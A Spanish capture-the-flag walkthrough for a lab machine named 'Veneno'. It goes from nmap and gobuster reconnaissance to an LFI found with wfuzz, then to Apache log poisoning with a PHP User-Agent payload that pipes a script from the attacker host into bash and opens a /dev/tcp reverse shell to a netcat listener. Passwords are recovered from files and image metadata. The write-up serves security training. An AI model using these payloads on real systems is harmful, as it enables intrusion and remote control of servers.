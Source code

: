 # Maquina Veneno

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

![alt text](image-2.png)

### Entramos en problems.php

![alt text](image-3.png)

al parecer se trata de un LFI

ejecutamos:

wfuzz -c --hc=404 --hw=961 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/problems.php?FUZZ=../../../../../etc/passwd

![alt text](image-4.png)

el parámetro vulnerable es backdoor

### Log poisoning

verificación de la ruta de los logs

wfuzz -c --hc=404 --hw=0 -t 200 -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://172.17.0.2/problems.php?backdoor=FUZZ

![alt text](image-5.png)

pudimos ver los logs, en la ruta /var/logs/apache2/acces.log

### Intrusión

1.- Creamos un archivo shell con el siguiente contenido:

bash -i >& /dev/tcp/172.17.0.1/443 0>&1

2.- Enviamos la shell por curl.

curl -i 172.17.0.2 -A "<?php system('curl 172.17.0.1:8080/shell | bash'); ?>"

3.- Levantamos un servidor con python

python3 -m http.server 8080

4.- Recargamos la web con la url que tiene el /var/log/apache2/access.log

5.- Ponemos en escucha con netcat

sudo nc -nlvp 443


Hacemos tratamiento de la tty.

vemos los usuarios

![alt text](image-7.png)

en /var/www/html hay un archivo llamado antiguo_y_fuerte.txt que contiene lo siguiente:

![alt text](image-6.png)

entonces busqué: find / -name "*.txt" 2>/dev/null y encontramos un archivo llamado /usr/share/viejuno/inhackeable_pass.txt que contiene la contraseña del usuario carlos:

### Escalar privilegios.

Siendo el usuario Carlos, entramos en /home/carlos y encontramos una imagen oculta:

![alt text](image-8.png)

la descargamos en nuestra kali y ejecutamos exiftool:

![alt text](image-9.png)

esa es la contraseña de root:

![alt text](image-10.png)